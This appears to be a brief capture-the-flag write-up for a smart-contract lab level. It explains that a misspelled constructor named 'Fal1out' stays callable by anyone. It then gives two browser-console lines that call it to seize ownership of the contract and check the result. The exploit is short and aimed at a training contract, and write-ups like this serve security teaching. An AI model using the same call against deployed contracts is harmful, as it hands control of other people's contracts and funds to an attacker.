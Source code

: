 ### ### Target

1. Take ownership of the contract

### Break Down & Analyze

The constructor has typo: Fal”1”out. Since the wrong spelling, it is served as a function rather than a constructor, so everyone can call it and take the ownership.

### Detailed Steps (work through the console)

```js
await contract.Fal1out() // call the wrong-spelled function to take ownership
await contract.owner() === player // check if you're the owner now
```
